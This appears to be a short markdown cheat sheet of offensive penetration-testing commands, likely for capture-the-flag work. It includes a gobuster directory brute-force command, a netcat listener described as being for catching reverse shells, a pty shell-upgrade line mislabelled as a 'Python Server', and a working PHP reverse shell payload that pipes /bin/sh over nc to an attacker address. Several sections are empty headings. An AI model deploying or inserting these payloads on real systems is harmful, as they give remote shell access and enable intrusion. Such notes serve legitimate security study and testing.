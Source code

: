 # Useful Codes
---
## nMap
---



---
## Gobuster
---
- Gobuster Dir
```bash

gobuster dir -u http://$IP --wordlist $Wordlist

```
---
## Hydra
---



---
## Netcat
---
- Listening for incoming RevShells
```sh
nc -lvnp port
```
- Listen for incoming calls
```sh
nc -nc ip port
```

---
## Python
---
- Python Server
```python

python3 -c 'import pty; pty.spawn("/bin/bash")'

```

---
## Revshells
---
- PHP Reverse Shell
```php

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f"); ?>

```